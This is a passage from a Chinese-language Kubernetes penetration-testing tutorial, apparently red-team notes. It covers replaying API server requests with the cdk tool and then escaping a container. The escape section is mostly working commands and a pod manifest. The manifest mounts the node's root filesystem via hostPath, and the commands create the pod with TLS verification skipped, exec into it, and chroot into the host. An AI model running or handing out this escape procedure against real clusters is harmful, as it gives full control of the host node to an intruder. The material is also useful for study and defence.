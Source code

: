 ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665394463721-5302471e-76e9-4c92-8aa8-f2c51094f733.png)

除此之外针对yaml转json还可以使用kubectl create -f ubuntu.yaml --edit -o json 直接生成post data。

```plain
kubectl create -f simple-pod.yaml --edit -o json
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665394488651-40c6ac78-8da0-49f4-b893-a7acef59bd81.png)

然后使用cdk工具进行重放

```plain
./cdk kcurl (anonymous|default|<token-path>) <method> <url> [<data>]
当前Pod不存在访问API server权限，返回403
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665394565588-91164778-521c-4bc8-b29c-8163454eec06.png)

## 部署恶意容器逃逸
### API server
在获取集群控制权限后，使用kubeclt命令获取本地镜像

```plain
#获取本地镜像
kubectl get pods --all-namespaces --insecure-skip-tls-verify=true -o jsonpath="{..image}" |tr -s '[[:space:]]' '\n' |sort |uniq -c
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665460041860-1dace0b2-15b7-4853-a86e-cdf88a33515f.png)

发现存在nginx镜像，使用该镜像创建恶意Pod

```plain
#pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: test-444
spec:
  containers:
  - name: test-444
    image: nginx
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

```plain
#在default命名空间中创建Pod
kubectl apply -f pod.yaml -n default --insecure-skip-tls-verify=true
#进入容器中
kubectl exec -it test-444 bash -n default --insecure-skip-tls-verify=true
#切换bash，逃逸成功
cd /host
chroot ./ bash
```
